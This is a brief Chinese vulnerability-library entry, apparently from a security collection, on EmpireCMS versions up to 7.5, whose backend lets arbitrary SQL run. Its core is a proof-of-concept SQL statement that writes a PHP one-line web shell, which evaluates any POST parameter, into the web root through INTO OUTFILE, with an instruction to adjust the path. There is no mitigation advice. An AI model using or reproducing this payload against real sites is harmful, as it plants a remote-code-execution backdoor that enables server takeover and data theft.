 ```yaml
---
title: 'EmpireCMS'
date: Tue, 08 Sep 2020 13:42:30 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <= V7.5

### 漏洞验证

由于后端没有对执行的语句做限制导致可以执行恶意sql语句。 ![](EmpireCMS/HOH@WWOHVQOVSR5K9.png) POC：

```
select '<?php @eval($_POST[1])?>' into outfile 'D:/phpstudy_pro/WWW/shell.php'
```

根据实际路径修改路径即可。 ![](EmpireCMS/7MGWYGAV0VX0AO6JNOC3.png)
